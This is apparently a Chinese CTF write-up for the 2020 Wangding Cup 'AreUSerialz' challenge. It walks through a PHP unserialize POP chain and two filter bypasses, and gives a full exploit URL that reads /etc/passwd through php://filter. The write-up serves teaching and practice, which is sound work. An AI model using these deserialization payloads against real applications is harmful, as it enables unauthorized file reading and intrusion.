

# [网鼎杯 2020 青龙组]AreUSerialz

## 知识点

`php代码审计`

`php反序列化`

## 解题

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

首先找序列化开始和目标函数

开始函数为

```php
if(is_valid($str)) {
 $obj = unserialize($str);
}
```

目标函数为，直接将`$this->filename`用伪协议读取文件内容，一般测试`payload`是否正确，可读取`/etc/passwd`测试

```php
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
}
```

然后查找`POP链`，`process`调用`read` 函数

```php
public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
```

反序列化直接调用`process`

所以`pop链`为`FileHandler::process()->FileHandler::read()`

并且需要`FileHandler::op == "2"`且`FileHandler::op !== "2"`

这就涉及强类型和弱类型数据比较,`op`为数字`2`时同时满足上述条件

所以`exp`为

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    protected $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```

但是这道题有过滤

```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
```

所以在对`protected`类型数据传参时无法传入`%00`

绕过方法一

`php7.1+`版本对属性类型不敏感，本地序列化的时候将属性改为`public`进行绕过即可

```php
<?php  

class FileHandler{
    public $op=2;
    public $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    public $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```



发现读取成功

绕过方法二

**利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 \00 替换 %00**

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="/etc/passwd";  // 最后需要手动修改passwd为小写
    protected $content;
}

$a = new FileHandler();
$b = urlencode(serialize($a));
$b = str_replace("s", "S", $b);
$b = str_replace("%00", "\00", $b);
echo $b;
?>  
```

最终`payload`

```
http://b6e037f4-5bb0-4a2b-866b-df7c1416fc12.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A11%3A%22%2Fetc%2Fpasswd%22%3BS%3A10%3A%22\00%2A\00content%22%3BN%3B%7D
```